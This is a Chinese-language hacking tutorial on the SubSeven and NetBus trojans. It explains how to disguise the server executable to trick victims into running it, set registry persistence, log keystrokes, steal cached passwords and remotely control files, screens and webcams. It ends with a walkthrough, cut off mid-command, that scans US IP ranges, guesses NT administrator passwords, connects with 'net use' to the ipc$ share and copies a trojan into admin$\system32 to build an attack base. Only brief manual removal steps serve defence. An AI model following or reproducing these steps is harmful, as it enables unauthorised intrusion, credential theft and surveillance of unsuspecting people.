

图 1

启动后，标题栏的右边有一个 IP 符号，点击该处将出现图 2 的画面：



图 2

- host name 对方主机名。
- resolve host name 指的是通过主机名连接。
- ip address 对方的 IP 值。
- reverse lookup 指的是通过 IP 连接对方主机。
- ping ip 可以 ping，也可以解释域名。
- clear 表示清除状态栏中的信息。
- status 表示当前的状态。

作为一个木马程序，服务器端的设置是非常重要的，下面我们看一下 Sub7 的服务器端是如何设置的：

图 3 就是 Server 端配制工具 Edit Server 的启动画面。这个 Server 端的大小为 395KB。首先你要在 Server 处填上该 Server.EXE 在你硬盘上的正确位置，以便对其进行修改。


browse 是指直接指定 Server 在硬盘上的位置。

read current settings 可以读取当前 server 端的配置情况并在此基础上进行编辑。

change server icon 你可以随心所欲的更改你的 Server.EXE 的图标。

这个属性对于特洛伊木马是很重要的，因为你必须将 Server.EXE 放到你要黑的计算机上，并且必须设法在他的计算机上点击 Server.EXE。一定要在你黑的计算机上点击，别像我起初那样，我们的计算机都有一个完全共享的目录，我有一次偷偷的将 Server.EXE 放到我同事的计算机上，我在我这边自己点击好几下，结果用客户端连接时，怎么也连不上；而后我乘他没注意，在他的计算机上点击了一下，又试了一次，才成功了，所以提醒大家千万别像我一样傻。你可以将 Server 端的图标做成一个 MM，或者伪装成某个软件的升级程序。不管你用什么手法，最终的目的就是要骗他点击 Server.EXE，从而最终能够控制他的计算机。作者是将图标改为 Winamp 图标，文件名改为“大海”，多么好听的一首歌。

## 二、对注册表的修改

上面说了 Sub7 的基本配置，那么 Sub7 究竟是如何运行的呢？它更改了注册表的哪些地方，那就是下面我们要干的工作了。现在大家对于注册表修改应当是比较熟悉了，特别是 run 键值下的——一切都是木马惹的祸。咱们还是看 EditServer 画面中的 Startup methods 吧。如图 4 所示：


这个框是控制 Sub7 的启动模式，是用来改 Windows 注册表的小东东，大家一定要注意哟，注册表可不是那么好玩的哟。

registry - Run 如果你选了此前面的复选框，那么 Sub7 将改变 Run 键值下的内容，所以你在实验之前最好把注册表备份一下，以免你的爱机再也起不来了，同时也便于你比较分析，使你明白清除特洛伊木马的方法。

同理你也可以改变 RunServices 键值下内容，如果你愿意也可以在 WIN.INI , less known method 或者 not - known method 中留下点记号，一切只要你愿意。

Keyname 用默认值时系统相关文件的更改情况

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
" Winloader" =" MSREXE.exe"
```

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
" WinLoader" =" MSREXE.exe"
```

```
Win.ini
windows load=MSREXE.exe
System.ini
shell=Explorer.exe MSREXE.exe
```

看了上面的内容，大家对手工清除木马也应该有一些了解了吧。

咱们继续往下看，就能见到如图 5 所示的画面。它是通知模块，就是 Server 端何时登上网络，他就会自动通知你，这个功能在大多数国产木马中也有，但不是那么体贴入微。



图 5

大家可以自己看一下，它能通过 ICQ, IRC 以及 e-mail 来通知你，具体配置也不是十分复杂，大家可以自己琢磨。不过值得注意的是你在用 email 时，有可能暴露你的 IP，所以你最好先点击一下 enable e-mail notify 旁边的 ? 号，看看它的说明，如图 6 所示。



图 6

其大意是：这个属性的难点是 email 的服务器，如果你确信神秘的 email 服务器允许停留，那么就点击它。如果你不确信，那么可以从列表中选取任何服务器地址，并且不填写 User 的 id 地址。然后点击“ test” 按钮，试着通过特定的服务器发出一个 email，如果你接收到一个 email 信息，那么就说明服务器工作正常，你可以放心的使用它。

右边的 installation 在配置里是一个特别重要的部分，包括了对 server 端所做的诸如安装后删除自身的一些设置，它可以与 change server icon 结合起来用，从而赢得别人的信任。

automatically start server on port 指自动从某端口启动 Sub7 服务器端。

use random port 是一个很强大的功能，现在的木马几乎都可以自行配置端口，除了极端新手会使用默认配置之外，所以单靠监听某一端口或某几个端口信息包的做法可能已经落后了。当然这种随机的 PORT 也会给主控端带来一定的麻烦，所以一般情况下还是指定某一端口。如图 7 所示：


图 7

Configure 点击 configure 按钮，出现如图 8 所示的画面。


图 8

你可以在 message title （标题栏）和 message text （提示信息）的文本框中填写你需要伪装的文字。最好用英语写。像我是伪装成歌词送给他，所以可以写成“文件错误，请重新下载”，记住要用英文写哟。如此这样才能消除对方的怀疑。

test message 指的是测试。

apply settings 指的是应用。

当你点击了 bind server with EXE files 前的复选框时，你就可以将 Server 和别的 EXE 文件合并起来。bind server with EXE files 右下方的 browse 就是用来指定与 Server 合并的文件的路径。如果你要将两个 EXE 文件合并在一块，用这个属性，不就轻松搞定了吗？

Protect Server 是 Sub7 用来保护你自己的小措施，这好像是 Sub7 新增的功能吧！其画面如图 9 所示：


图 9

它能防止你的用户信息被你要控制的计算机所读取，要知道那里面可有你私人的小秘密哟。而且如果被对方读取的话，你的进攻也只有死定了。

## 三、名不虚传 SubSeven

光讲理论，没有实践可不行，实践是检验真理的唯一标准。下面我就通过一个具体的实例来说明上述问题。

第一步：点击 Edit Server.EXE，启动 Edit Server 画面，如图 10 所示。


图 10

第二步：你可以在 Server 处直接输入 Server.EXE 在你硬盘上的位置，也可以通过点击 browse，指定 Server 在你硬盘上的位置。执行上述操作后，将出现如图 11 所示画面：


图 11

点击 read current settings，你就可以看到当前 server 端的设置。

第三步：点击 change server icon，你就可以改变 Server.EXE 的图标，改一个好看的哟，最重要的是骗倒对方。我将它变为 Winamp 图标，这不摇身一变，成了 mp3 了。如图 12 所示：


图 12

第四步：在启动模式对话框中，你可以点击其中的任何复选框，从而改变注册表。不过我还是想多说一句，在你改之前最好将注册表备份一下。我还是只选了 win.ini 前的复选框，其余的也不是特别复杂，大家可以自己试试。

第五步：在 installation 框中，保留原有设置。

第六步：做完上述工作后，得自己保护起来。点击 protect the server so it can't be edited/changed 前的复选框，password：表示你要输入的密码，reenter：表示重新输入密码，以确认密码输入是否正确。

第七步：保存设置。保存设置如图 13 所示：


图 13

save new settings：表示把设置保存到刚才你打开的 Server.EXE 中。

Save a new copy of the server with the new settings 表示以另外的文件名和路径保存设置。从而保留了原来的 Server.EXE 文件。我将 Server.EXE 保存为“大海”，我想张雨生如果看见了一定会骂我。

如果你在启动模式中改注册表时，只选了 Win.ini 前的复选框，那么你只要在 dos 下，（可以在 98 自带的 dos 下）运行：edit win.ini 命令后将出现如图 14 所示的画面：


图 14

将 run= C：\WINDOWS\SYSTEM\cmmpu.exe， MSREXE.exe 一行中 MSREXE.exe 删除再在注册表删除一个键值，方法如下：

运行 regedit 后，再点击

```
HKEY_LOCAL_MACHINE\Software\SubSeven
```

将 SubSeven 删除，然后重启后，你就能发现木马被清除了。

总之，注册表是非常奥妙的，相信大家看了上面的内容，对手工清除木马，也应该有所了解了。

服务器端就说到这儿，下面我们主要探讨客户端的用法，也是我们 Sub7 的中心控制部分。

在客户端的最上面，我们能看到图 15：


图 15

IP/UID：文本框中表示你要黑的计算机的 IP 值，一定要输入正确哟。

Port：指的是默认的端口号，可以在服务器端设置。

connect 表示客户端向服务器端发信号请求连接。

客户端的最下方有一个状态栏，用来显示是否连接成功。

如果状态显示为图 16 所示的画面：


图 16

则表示尚未连接成功。

如果是图 17 所示的画面：


图 17

则表示已经连接成功。可以进行下面的操作，否则下面所做的一切都是白费。

点击此图标，可以将你需要的 IP 值保存起来。相当于一个 IP 电话本，方便实用。真是体贴入微。

客户端的左边是菜单组，右边为工具的使用界面。

点开 Connection，你就会看到下面还有一组菜单。如图 18 所示。


图 18

ip scanner：可以扫描你指定网段上打开某一端口的电脑用户，可以 ping，也可以解释域名。

get pc info：可以得到主机信息，如用户名，共享情况，CPU，域，platform，以及用户连接情况等。具体如图 19。


图 19

get home info：主机用户的基本情况，如公司、邮件地址，但只有他在填了这些情况下，你才能看到，否则就只有 not found。

server options 服务器选项，可以改变端口、密码，重启机器等。如图 20 所示：


图 20

- change port 表示改变端口。
- set default port 设置默认的端口。
- set password 设置客户端的密码，防止别人用你的客户端干坏事。
- remove password 移除密码。
- disconnect victim 断开与服务器的连接。
- restart server 重新启动服务。（此功能没看出来）

remove server 移除服务器，客户端与服务器端将再也连接不上。所以说如果你还想继续黑人，最好不要用这个属性。

- close server 功能与 remove server 有点相似，我是没看出什么区别。
- update server from local file 表示从本地文件对 Server 升级。
- update server from URL file 表示通过网络对 Server 升级。
- ip notify：通过三种途径通知你，server 端何时登上 Internet 网络。

远亲不如近邻，下面咱们再看看 connection 的近邻 keys/messages，如图 21 所示


图 21

keyboard： 键盘记录、发送击键指令，只要跟键盘有关的东西都可以在这儿找到。其界面如图 22 所示：


图 22

- Open keylogger 表示打开键盘记录器，最后你敲的键盘的字符，被以 keys.txt 的形式保存在 subseven 的目录下。
- Send keys 其中的 refreshwindows，表示当前你要黑的对象所打开窗口的名称。可以说他对于你再没有什么秘密可言。
- Get offline keys 表示得到脱机记录的键盘的字符，你将能看到 open keylogger 中所记录的键盘字符。
- Clear offline keys 表示清空脱机记录的字符，那么你再点击 get offline keys，将什么也看不到。
- Disable keyboard 表示使键盘失灵，只要点击了它，那么你就只能用鼠标了。
- Chat 表示和受控方聊天。跟聊天室一样，不过特别快。你可以自己填写昵称 (nick name)，同时你还可以改变界面的大小，以及显示文字的颜色、大小。
- Matrix 好像是一个点对点的模式。自己可以试试。
- msg manager： 发送消息。

spy：当间谍，可别心跳加速哟。

ICQ takeover：跟 icq 有关。

## 四、SubSeven 核心功能详解

下面咱们将说到 Sub7 的精华部分，也就是其核心，大家一定要好好看哟。首先让我们看一下 advanced 的下拉菜单。如图 23 所示：


图 23

ftp/http： 登上他的主机。

find files： 可以看到他机子上任何文件，下面就是想干什么就干什么了。先看一下它的画面。如图 24 所示：


图 24

你可以在 look for you can use wildcards 中改变要查找文件的扩展名。在 look in folder 中改变驱动器的名称。

如果你点击 search sub-directories 前的复选框，再点击 find files，就可以发现当前 E：盘中所有扩展名为.jpg 的文件。

如果你不点击 Search sub-directories 前的复选框，而直接点击 find files，你的画面将变为图 25：


图 25

再点击 move list to file manager，画面变为图 26 所示：


图 26

点击 C：，然后点击 refresh，你可以得到 C 盘目录下的所有文件。

- get drives：改变驱动器号。
- run：只能执行扩展名为 exe、com 或 bat 的文件。
- path：指定路径。
- download：只要你认为好的东西，你都可以点击从你的受控方的机子上不费劲的取过来。
- get size：可以得到文件的大小。
- edit file：编辑文件。
- upload：上传文件。你可以把你的文件传到受控方计算机的任何目录中。
- delete：大家都知道，一定要慎用哟。
- create dir：在受控方的爱机上创建目录。
- play wav：播放所有扩展名为.wav 的声音文件。
- set wallpaper：将图片设为墙纸。
- print：打印。
- display image：在受控方的计算机上显示你想要显示的图片。

Passwords：可以得到一些你意想不到的密码哟，希望他别把密码放在缓存里。否则，嘿嘿.... 点击它后出现图 27 所示的画面：


图 27

- get cached passwords：表示得到缓存中存储的密码。
- get recorded passwords：表示得到保存在记录中的密码。
- clear：清除记录。
- show received passwords：显示已经得到的密码。

下面两个属性大家都比较熟悉，我就不详述了。

- reg edit：可以任意修改被控方的注册表，注册表可不是闹着玩的，大家一定小心哟。
- app redirect：当前运行服务重定向。
- port redirect：端口的重定向。

刚说完老大，老二就来了，点击 miscellaneous，出现其下拉菜单，如图 28 所示：


图 28

- file manager：文件控制，刚才我们已经介绍过了，这里我就不再重复了。
- window manager：窗口控制。其主界面如图 29 所示：


图 29

首先必须点击 show all applications 前面的复选框，然后再点击 refresh，你才能得到受控方计算机的全部应用。

- show：表示显示状态栏。
- Text-2-speech：文本以声音发出（必须其机上有一个东东，你自己看看说明吧）。
- clipboard manager：剪贴板控制。你可以读，设置，或者清空剪贴板中的内容。
- irc bot：IRC 相关的东东

经过紧张的学习后，可以给你的朋友开个玩笑，那就不能不用到下面的工具了。工具的名称叫 fun manager，点开它，出现图 30 所示的画面：


图 30

- desktop/webcam：你可以获取对方的屏幕，点击 open screen preview，将出现图 31 所示的画面：


图 31

里面有两个特别重要的属性，一个是 capture interval 控制动态抓图时间，另一个是 allow mouse click，如果你选了它，那就意味着你可以用鼠标在你的计算机上控制受控方的计算机。只要再点击 enabled，一切就大功告成了。现在你就可以在你的计算机上点击屏幕，使受控方执行任何一个操作。有意思吧。大家不妨试试。如果你确得显示的屏幕太小，你可以在 Server 端设置一下。具体设置方案我上面已经讲过。

- full screen capture：是将受控方的屏幕全图抓下来。
- Flip screen：把对方屏幕在水平方向或者垂直方向颠倒。
- Print：打印。
- browser：想不想操纵他去浏览你想去的任何一个主页？

- resolution：决定对方的屏幕显示、刷新率。
- win colors：最好别改，看起来可真不习惯。

可能是玩笑开得不够大，我们的 Sub7 的开发人员又增加了一些逗乐的工具，称为附加工具，点开 extra fun，我们得到的下拉菜单如图 32 所示：


图 32

- screen saver：屏保，不能用（因为有一个小东东没有安装）。
- restart win：重启，有几种不同的方式。
- Mouse：控制鼠标的小东东，只有你想不到的，没有办不到的。使鼠标左右键颠倒，隐藏，及客户端控制鼠标的移动等等。
- Sound：可以录音，也可以播放 wav 文件，还可以改变音量，从而吓他一跳。
- time/date：修改系统时间。
- extra：一些附加选项，如对光驱的操作，开始处状态栏的隐藏等。

现在我们到了菜单组的最后一项，点开 local options，将出现图 33：


图 33

- quality：与本地显示质量，与 fun manager / desktop/webcam / open screen preview 结合起来用，从而提高抓图的质量。
- local folder：本地目录。
- client color：本地色彩设置，可以改变 windows，菜单以及按钮的颜色。
- misc options：一些杂项的设置。
- advance：高级设置，有关端口。
- run Editserver：配置 server 端。

## 通往地狱的网络巴士 NetBus

每一个舶来的东东，我们都试图给它取一个中文名字，NetBus 的中文名字应当叫什么呢，还是叫网络巴士吧！想一想网络上的巴士，控制人家的计算机像坐巴士那样来去自由，而且还是免费的哟！你是不是也希望这样一个大同世界呢？不要这样幻想了，当别人控制你的计算机也像乘坐巴士一样来去自由，你就会发现这是一个什么样的噩梦了。还是让我们走近它，看一看 NetBus 究竟是个什么东西吧。

### 一、网络巴士（NetBus）是什么

NetBus 是个功能非常强大的特洛伊木马软件，它类似于著名的 BackOrifice 黑客软件，只是在功能上有所不同。与 BackOrifice 相似，NetBus 通过 TCP/IP 协议，可以远程将应用程序指派到某一端口来运行，这就相当于说可以远程运行机器上的 cmd.exe，想想这是多么危险的事情。

如果不是 the Cult of the Dead Cow 黑客组在 98 年的 DefCon 大会上发布 BackOrifice 工具而引起轩然大波的话，可能大多数人还不会注意到三月份发行的 NetBus。据说 NetBus 是瑞典程序员 Carl-Fredrik Neikter 为了“和朋友们消遣”而编写的，当时发布在其站点上，此站点现已停办。

粗粗一看 NetBus 似乎没什么危害，只允许黑客控制鼠标，播放声音文件，或者打开 CD-ROM 托架。但如果深入分析，就不难发现其中大量的破坏性功能，特别是它基于 TCP/IP 协议在 Windows 95、Windows 98、和 Windows NT 上运行的（与旧版本 BackOrifice 不同），这大大增加了侵蚀各种用户环境的可能性。

NetBus 1.60 版能实现一些相当危险的操作：黑客能够运行远程程序，进行屏幕抓图，在所侵入的计算机浏览器中打开 URL，显示位图，进行服务器管理操作（如更改口令），甚至利用远端的麦克风录制一段声音。更可怕的是：它能在侵入的计算机上显示信息，向毫无戒心的用户提示输入口令，再把该口令返回到入侵者的屏幕上。NetBus 还能关闭 Windows 系统，下载、上传或删除文件。

11 月 14 日发行的 NetBus 1.70 新增了更多不正当的功能。如：重定向功能（Redirection）使黑客能够控制网络中的第三台机器，从而伪装成内部客户机。这样，即使路由器拒绝外部地址，只允许内部地址相互通信，黑客也依然可以占领其中一台客户机并对其它无数台机器进行控制。

V1.7 甚至还能指派应用软件至某个端口，以前只有 Netcat——黑客的梦幻工具——用于 Unix 和 NT 时才具有这种功能。例如，黑客可以将 cmd.exe 指派至 Telnet port 23，然后 Telnet 进入该机器，从而接管系统的命令提示符，其危险后果不言自明。

NetBus 的默认状态是在 port 12345 接收指令，在 port 12346 作应答。Telnet 登录到接收端口就会看到产品名称及版本号，还可以修改口令。NetBus 能通过编辑 patch.ini 配置文件，把 1 到 65535 之间的任意数字指定为端口。当需要绕过防火墙或路由过滤器时，端口通常就会设为 53（DNS）或 80（HTTP）。

### 二、NetBus 的特点

NetBus 是一个远端遥控软件，简单的操控界面和完整的功能是它的特点。所谓远端遥控就是透过网路连线（点对点、区域网路、网际网路等等），从一台电脑去控制另外一台电脑。NetBus 有许多特别的远端遥控功能，如文件管理、屏幕捕获、打开软件等等。以下是 NetBus 功能的简单说明：

- 和被控端即时聊天
- 支持 Telnet，可以使用 Telnet 软件使用被控端的 MS-DOS 模式
- 支持 HTTP，只要使用浏览器就可以上传或下载文件
- 完整的视窗管理功能，可以控制被控端的所有软件视窗
- 应用软件转向，例如可以从远端电脑使用 MS-DOS 指令
- 打开文件，如运行可执行文件、打开影像文件、播放声音文件等等
- 监视功能，如监视被控电脑的键盘动作、捕捉屏幕、透过麦克风录音、透过 webcam 监看等等
- 文件管理，可以上传、下载文件、删除文件、建立文件夹、共享文件夹等等
- 开启 CD-ROM
- 鼠标左右键功能对调

当然，NetBus 的功能并不仅仅只是以上所列，但看到这里，读者是不是已经觉得它的功能实在太强大，而有些跃跃欲试了呢？不过，在你使用之前笔者必须要提醒你，NetBus 的遥控功能虽然很强，但这个软件对所有人都是开放的，也就是说，你也有可能成为黑客攻击的目标，由控制端变成被控端！

## 三、NetBus 的安装与功能详解

NetBus 包含服务器（图 1）和客户机两个部分，服务器必须安装在你想控制的计算机上。客户机由你掌握，它是控制目标计算机的程序。把 NetServer 服务器 Patch.exe（可更名），放入目标计算机的任意位置并运行它，缺省时安装在 Windows 中，以便开机时自动运行。把 NetServer 客户机，装在自己的计算机里。开始 NetBus，连接你选择的域名或 IP 地址；如果 Patch 已在你连接的目标计算机中运行，那我们就可以控制它了。


注意：如果你正在被黑着的话是看不到 Patch 在运行的。它在 Windows 启动时自动运行，并隐藏 NetBus 和 Patch。由于使用的是 TCP/IP 协议，因此，你的地址有主机名，IP 地址，NetBus 都会用 Connect 按钮把你联上。

这个程序是不用安装的，只要运行如图 1 所示的程序，就会弹出如图 3 所示的这个窗口，这就是 NetBus 的主界面，看起来实在是有点朴素，朴素得就像一位没有化妆的少女，是吗？！！不，它的的确确是一个叫人毛骨悚然，谈之色变的通往地狱的巴士，所以，你千万不要被它的外表所迷惑。


图 3

如果你知道对方的主机名（或 IP 地址），那么直接在其后的文本输入框中输入。输入完毕后用鼠标左键单击 Connect!（连接）按钮，在它最下面的状态栏中会提示你：Connecting to 你的主机名或 IP 地址（正在与远方的主机连接）；如果能够连接到对方主机则状态栏会提示：Connected to 你的主机或 IP 地址（ver1.7）（已经连接上主机）；如果对方没有开机或对方没有运行 Patch 程序，状态栏也会提示你：Couldn't connect to 主机名或 IP 地址（连接不上对方主机）。

如果你不知道远程的主机名或 IP 地址，那么就用 Scan（检测）功能去查找它吧！图 4 所示的是 Scan 的对话框。


是让你输入要搜索的 IP 地址的范围，前面的是起始 IP，后面的是终止 IP，当你单击 Start 后，系统就会通过网络去搜索这个范围内的主机看对方是否已经运行了 Patch 的木马程序，而 start 按钮会自动地变为 Stop，当你按 Stop 时检测就停止了。在 Found IP-numbers 的文本框中会显示出所有在这个 IP 范围内的已经运行了 Patch 的机器。port 是端口号，NetBus 默认的端口号是 12345，如果你试用某一个端口找不到的话可以换一个端口再试。Max sockets 是最多可容纳的主机，NetBus 默认的是 255 个。Current IP 是当前正在检测的 IP 值。如果没有检测则默认的是 0.0.0.0。当检测完了以后且不需要了你就可以单击 Clear 来清除掉文本框中的内容了。单击 Close 关闭这个窗口，但是它却还在后台运行，当你再单击 scan 时，就又出来了。


图 4

好了，说到这里也该言归正传了，介绍一下它的主要功能吧！

- 弹开/关闭 CD-ROM 一次或间隔性自动开关。

单击 Open CD-ROM 按钮，被控制端如果有光驱就会弹出来，当这个命令运行后，按钮会自动地变为 Close CD-ROM。这时如果再单击这个按钮，光驱就会弹进去。也许对方正在通过光驱安装一个软件时候，他被黑了，那个样子你可千万别去看，他会吃了你的。

- 显示所选择的图像

如果你不知道图像文件的路径，如图 5 所示，可在 Patch 的目录中找。需要说明的是 NetBus 只支持 BMP 和 JPG 格式。如果你想打开一幅图片，就必须知道它的路径，否则就无法打开。在打开图片后按钮会自动地变为 Remove image，请记住按一下这个按钮是非常必要的，否则被控制端可就惨了，这幅图片会永久的停留在桌面上给人带来不必要的麻烦，除非对方重启计算机。


图 5

- 交换鼠标按键——鼠标右键变成鼠标左键的功能

单击 Swap mouse 按钮，鼠标的左右键功能就会互换，哈哈，双击左键竟然弹出了属性对话框，单击右键却什么动静都没有，奇怪吗，先打开 c:\windows\目录或杀毒软件看一下吧，也许你被黑了。怎么办呢？按一下 Reset 键吧！

- 开始所选择的应用程序

单击 Start Program 按钮，会弹出如图 6 所示的对话框，在里边你可以填入你想要打开的应用文件，是不是很简单啊，NetBus 默认的是 Calc.exe 文件，就是如图 7 所示的计算器程序。如果你想打开 IE、Photoshop 等等那就随你了，不过不要太黑啊，否则你也会败露的。


图 6


图 7

- 播放所选择的声音文件

如果你没有声音文件的路径，可在 Patch 的目录中找，支持 WAV 格式。注意：在文本框中输入的路径一定得是绝对路径（如图 8），否则它可不能替你找到。


图 8

- 点击所选的鼠标坐标

你甚至可以让你的鼠标在目标计算机中运行。单击 Control mouse 按钮，当你的鼠标移动时，会出现你的鼠标的坐标：

- 在屏幕上显示对话框，回答会返回你的计算机中。Type 是对话框的形式，有四种供你选择（如图 9）：


- Information：信息框；
- Question：问题框；
- Warning：警告框；
- Stop：停止框。

各种类型的对话框返回信息分别如图 10、11、12、13、14、15 所示。


而 Buttons 则是让你选择按钮的种类：

- ok：只有一个确定钮
- ok/cancel：有一个确定钮和一个取消钮；
- Retry/Cancel：有一个重试钮和一个取消钮；
- Yes/No：有一个是钮和一个否钮；
- Yes/No/Cancel：有一个是钮、否钮和一个取消钮。

如果你勾选上 Let the user answer the message，就允许被控制端来回答你所发送的信息。Message 框中输入要告诉对方的信息，然后单击 send msg 按钮发送，如果单击 close 按钮则关闭这个对话框。当这个消息框到达被控制端时，如果对方按了“是”则你的屏幕上会弹出如图 16 所示的对话框。


图 16

- 关闭系统、删除用户记录等

单击 Exit Windows 按钮，会弹出图 17 所示的对话框，NetBus 提供了四种命令供你使用：


图 17

- Logoff：注销；
- Power off：切断电源；
- Reboot：重新启动；
- Shutdown：关闭系统；
- 用缺省网络浏览器，浏览所选择的 URL

在图 18 所示的对话框中输入一个网址，在被控制端会用其默认的浏览器打开这个网站。


图 18

- 发送键盘输入的信息到目标计算机，如图 19 所示。


图 19

- 监视对方的键盘输入的信息，并发回到你的计算机
- 清屏！(连接速度慢时禁用)

单击 Screendump 按钮，你就可以将被控制端清屏。

- 获取目标计算机中的信息（如图 20）


图 20

- ◆ 上载你的文件到目标计算机中
用此功能，可上载 Patch 的最新版本。
- ◆ 增大和减少声音音量（如图 21）


图 21

- ◆ 记录麦克风的声音，并将声音返回
- ◆ 按一次键每次有声音
- ◆ 下载和删除目标中的任何文件

你能下载/删除在目标计算机硬盘中所选择的文件。单击 File manager 按钮，弹出如图 22 所示的对话框，刚弹出时文件显示窗口里面都是空的，如果单击 Show files 按钮，等上一会儿，窗口中就出现了你控制的计算机中的所有文件和目录。行了，你现在可以像操作你自己的计算机一样来操作它了。美中不足的是它只提供了下载文件、上传文件和删除文件三种操作，是太少了一点，等着吧，以后的版本会更强大的。（Remote file：远端的文件）。


图 22

- ◆ 键盘禁用功能。单击 Keys manager 按钮，弹出如图 23 所示的对话框，它共提供给我们三种功能：


图 23

Key click：点击键。
Disable keys：自定义设置哪个键禁用，如图 24 所示。


Disable all keys：所有的键都禁用。

- ◆ 密码保护管理
- ◆ 显示死机和当前系统中的窗口。

上述功能的一些选项在执行时（逻辑排异），可能会延迟几秒。

Connect 按钮有个很好的特点，它能扫描 NetBus 计算机中的 IP 地址。一旦连接它会停止扫描。IP 扫描的参数是 xx.xx.xx.xx + xx，等。127.0.0.1 + 15 将扫描 IP 地址的范围是 127.0.0.1 到 127.0.0.16。

在 NT 下的操作与 Win95/98 下的操作是一样的，惟一的不同点就是在被控制端运行的不是 Patch.exe，而是 ntsrv.exe，这里就不一一介绍了。只是通过网上实例来让大家看一下黑客在网上是如何工作的。下面就是一位黑客用 NetBus 攻击 NT 的实例。

## 四、 NetBus 实战演习

一般用户均为拨号上网，速度较慢，绝对不适合大数据量攻击，比如密码强攻等，而且很容易暴露自己，留下攻击痕迹，给自己带来极大的危险。所以，建立自己的中间堡垒是迈向成功的第一步。所谓中间堡垒，实际上就是连接在高速网络上的远程计算机，我们在本地通过 Telnet，控制远程计算机上运行的攻击程序，这样，没有直接对目标进行攻击，敌人很难发现，而且远程计算机有很宽的带宽，速度较快，减少攻击时间。比如在美国，绝大多数计算机都是通过千兆网连接到 Internet，其速度不比我们在局域网慢。

那么，怎么建立自己的中间堡垒呢？在美国，上网计算机数量巨大，几乎有 40%以上的计算机是相当容易攻破的，所以，我们只要想办法攻入一台位于美国的计算机，并成功的在其上安装木马程序及攻击工具程序，接下来就好办多了。请看下面我们的经历：

- 1. 利用 Pinger 程序，查找美国的一段 IP 地址，如果没有任何机器，再换一段，直到找到目标，如图 25：


可以发现，Pinger 程序在一连续的 IP 地址上，找到目标计算机的一些相关信息，比如：

209.102.20.193 - SERVER，其中 209.102.20.193 为计算机的 IP 地址，SERVER 为机器名。接下来，我们进入 DOS，运行 killusa 编制的 letmein.exe，如图 26：


图 26

letmein.exe 的运行格式如下：

```
letmein.exe file //server/ - group - op pwd
```

其中 - group 为：(-all -admin -users -domainadmin -domainusers -guests -domainguests)
- op 为：(-g 攻击，-d 只显示用户)
pwd 为：mypwd

例如：`letmein file //111.111.111.111/ -all -g mypwd`（对 \111.111.111.111 上所有用户攻击）

接下来，letmein 程序开始取得 SERVER 的相关用户，并简单尝试其口令。非常幸运，SERVER 操作系统为 NT，killusa 很快取得 SERVER 上管理员为 Pearson 的口令为 Pearson，结果如图 27：


图 27

当然，您的运气也许没有这么好，没关系，反复试几次，终归会有一个笨蛋失误，我们以多年的经验保证您可以在美国找到这么一台计算机！

接下来，继续在 DOS 状态下运行，如图 28：

```
C:\>net use \209.102.20.193\ipc$ "Pearson" /user:"Pearson"
net use \209.102.20.193\ipc$ "Pearson" /user:"Pearson"
The command completed successfully.

C:\>
```

其实，这时，您已经以管理员的身份登录到该机器上了，接下来，赶快将工具程序拷贝到该计算机上，如图 29：

```
C:\>copy c:\hack\ntsrv.exe \209.102.20.193\admin$\system32
